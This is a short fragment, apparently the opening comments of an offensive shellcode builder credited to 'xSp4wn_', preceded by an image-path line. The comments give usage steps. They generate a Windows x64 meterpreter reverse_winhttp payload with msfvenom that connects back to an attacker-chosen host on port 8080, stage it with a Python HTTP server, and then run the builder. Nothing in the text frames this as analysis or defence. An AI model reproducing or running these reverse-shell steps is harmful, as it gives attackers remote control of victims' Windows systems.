 # This is a simple shellcode, to use it, just give the following commands:
# msfvenom -p windows/x64/meterpreter/reverse_winhttp LHOST=<host> LPORT=8080 EnableStageEnconding=True -f raw > /home/parrot/x64shellcode.raw
# python3 -mhttp.server 8080
# After this, Execute the Builder!
# coded by xSp4wn_
